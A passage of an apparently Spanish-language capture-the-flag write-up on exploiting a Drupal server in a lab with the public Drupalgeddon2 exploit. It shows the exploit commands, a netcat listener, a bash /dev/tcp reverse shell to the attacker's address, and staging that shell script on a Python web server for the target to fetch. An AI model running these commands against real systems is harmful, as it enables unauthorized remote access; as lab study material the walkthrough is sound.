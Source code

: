 ### Druppalgeddon {-}

**Druppalgeddon2** es un exploit creado por Hans Topo y g0tmi1k escrito en ruby que aprovecha de vulnerabilidades
de drupal y que directamente nos daria una shell.

```bash
git clone https://github.com/dreadlocked/Drupalgeddon2
cd Drupalgeddon2
cat drupalgeddon2.rb
ruby drupalgeddon2.rb
```
## Explotacion de vulnerabilidad & Ganando acceso {-}

### Druppalgeddon {-}

```bash
ruby druppalgeddon2.rb 10.10.10.233
whoami
#Output
> apache
ifconfig
#Output
> 10.10.10.233
```

Entablamos ahora una reverse shell para sacarse de este contexto.

1. maquina de atacante

    ```bash
    nc -nlvp 443
    ```

1. druppalgeddon2 shell

    ```bash
    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    ```

Esto no functiona porque el comando contiene **bad chars**. Como la maquina no tiene **nc** ni **ncat** la tecnica seria la siguiente:

1. Creamos un archivo *index.html* que contiene

    ```html
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.20/443 0>&1
    ```

1. Compartimos un servidor web con *python*

    ```bash
    python3 -m http.server 80
    ```
